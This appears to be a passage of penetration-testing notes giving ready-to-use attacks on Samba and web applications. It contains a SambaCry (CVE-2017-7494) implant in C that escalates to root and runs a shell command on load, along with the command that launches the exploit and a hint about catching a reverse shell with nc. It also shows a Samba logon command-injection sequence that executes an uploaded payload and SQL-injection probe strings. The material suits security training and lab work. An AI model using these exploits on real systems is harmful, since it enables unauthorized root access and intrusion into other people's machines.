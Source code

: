 An example of a modified implant.c file. This source file gets compiled by the provided Python script.

```
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```

My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.

```
sudo tcpdump -i tun0 icmp
```

Run the exploit.

```
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

**ShellShock via SMTP**

**CVE-2014-6271**

```
# technique goes here
```

**Shell via Samba Logon Command**

```
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

**SQL Injection**

Check for a SQLi vulnerability

```
'
```

Check the quality of SQLi vulnerability

```
' or 1=1 --
```
